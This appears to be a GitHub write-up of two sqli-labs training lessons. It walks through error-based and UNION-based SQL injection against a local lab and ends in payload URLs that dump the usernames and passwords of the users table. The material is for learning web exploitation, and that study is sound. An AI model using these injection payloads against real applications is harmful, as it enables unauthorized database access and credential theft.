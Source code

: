 # Web Exploitation

## SQLI Lab Challenges

#### Lesson 1

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/4.jpeg?raw=true)

- We can see that its asking us to **Input the **ID as parameter with Numeric value**.
- Now injecting it with **?id=x** we will get different **Username** and **Password** where **x** is any positive number.

```
http://localhost/sqli-labs-php7/Less-1/?id=1
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/5.jpeg?raw=true)

- Now if we inject with **?id='** the query will be breaked and we will get an error.

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/6.jpeg?raw=true)

```
http://localhost/sqli-labs-php7/Less-1/?id=1%27
```

- The error is '''' LIMIT 0,1' Here we can remove the first and last ' since they indicates the error statement. 
- Now it becomes ''' LIMIT 0,1 the input we give will go between ''. Hence, we need to dump the data with a single quoted query.

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' LIMIT 0,1' at line 1
```

- The error is '''' LIMIT 0,1' Here we can remove the first and last ' since they indicates the error statement. 
- Now it becomes ''' LIMIT 0,1 the input we give will go between ''. 
- So remove the **' '** from the query.
- Finally  we are left with single Query.
- Hence, we need to dump the data with a single quoted query.
- If we give **?id=1'** we cant dump the data because the statement becomes **True**. 
- So we need to give a false value and union it with the right query dump the statement. 
- Giving negative value makes the value **False**.

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1-- -
```

- Next step is to find **Number of Columns**.
- To do that try with different values untill we get a correct one.

```
The used SELECT statements have a different number of columns 
```

- It means that the number of columns which we assumed is not correct. 
- Now if we try with 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2,3-- - 
```

we will get Login name:2 Your Password:3 signifying that the required number of attributes is correct.


![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/1.jpeg?raw=true)

- We shall find what database has all the data of usernames and passwords.
- We shall give the query as ?id=-1’ union select 1,database(),version()-- -

```
http://localhost/sqli-labs-php7/Less-1/?id=-1%27%20union%20select%201,database(),version()%20--%20
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/2.jpeg?raw=true)

- Now we need to figure out table, column to dump usernames and passwords.
- In the database we can find that TABLES contain all the data. 
- TABLES contains attribute TABLE_SCHEMA that have database names and TABLE_NAME have names of all tables.
- Now if we give 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2,group_concat(TABLE_NAME) FROM information_schema.TABLES where TABLE_SCHEMA = database()-- - 
```
we shall get all the tables in the database.

- We need to find the names of attributes now. 
- We can do that using 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'-- - 
```
we will get id,username,password.

- Now we need to find the database in which the data usernames and password lies. 
- We can get that using 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2, database ()-- -.
```
- We will get security as the result for database(). 
- **database()** is a function in mysql that returns the current database. 

```
--> The Final Query that Dumps the Database is,

http://localhost/sqli-labs-php7/Less-1/?id=-1%27union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--%20-
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/3.jpeg?raw=true)

#### Lesson 2

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/7.jpeg?raw=true)

- We can see that its asking us to **Input the **ID as parameter with Numeric value**.
- Now injecting it with **?id=x** we will get different **Username** and **Password** where **x** is any positive number.

```
http://localhost/sqli-labs-php7/Less-2/?id=1
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/8.jpeg?raw=true)

- Now if we inject with **?id='** the query will be breaked and we will get an error.

```
http://localhost/sqli-labs-php7/Less-2/?id=
```

- The error is '' LIMIT 0,1' Here we can remove the first and last ' since they indicates the error statement. 
- Now it becomes ' LIMIT 0,1 the input we give will go between ''. Hence, we need to dump the data with a without a query

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'LIMIT 0,1' at line 1
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/9.jpeg?raw=true)

- The error is **'LIMIT 0,1'** Here we can remove the first and last ' since they indicates the error statement. 
- So we are left with LIMIT 0,1
- Its a integer based error dumping.
- If we give **?id=1** we cant dump the data because the statement becomes **True**. 
- So we need to give a false value and union it with the right query dump the statement. 
- Giving negative value makes the value **False**.

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1-- -
```

- Next step is to find **Number of Columns**.
- To do that try with different values untill we get a correct one.

```
The used SELECT statements have a different number of columns 
```

- It means that the number of columns which we assumed is not correct. 
- Now if we try with 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2,3-- - 
```

we will get Login name:2 Your Password:3 signifying that the required number of attributes is correct.

- We shall find what database has all the data of usernames and passwords.
- We shall give the query as ?id=-1’ union select 1,database(),version()-- -

```
http://localhost/sqli-labs-php7/Less-2/?id=-1%20union%20select%201,database(),version()%20--%20
```

- Now we need to figure out table, column to dump usernames and passwords.
- In the database we can find that TABLES contain all the data. 
- TABLES contains attribute TABLE_SCHEMA that have database names and TABLE_NAME have names of all tables.
- Now if we give 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2,group_concat(TABLE_NAME) FROM information_schema.TABLES where TABLE_SCHEMA = database()-- - 
```
we shall get all the tables in the database.

- We need to find the names of attributes now. 
- We can do that using 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'-- - 
```
we will get id,username,password.

- Now we need to find the database in which the data usernames and password lies. 
- We can get that using 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2, database ()-- -.
```
- We will get security as the result for database(). 
- **database()** is a function in mysql that returns the current database. 

```
--> The Final Query that Dumps the Database is,

http://localhost/sqli-labs-php7/Less-2/?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--%20-
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/10.jpeg?raw=true)



#### References --> https://github.com/skyblueee/sqli-labs-php7/
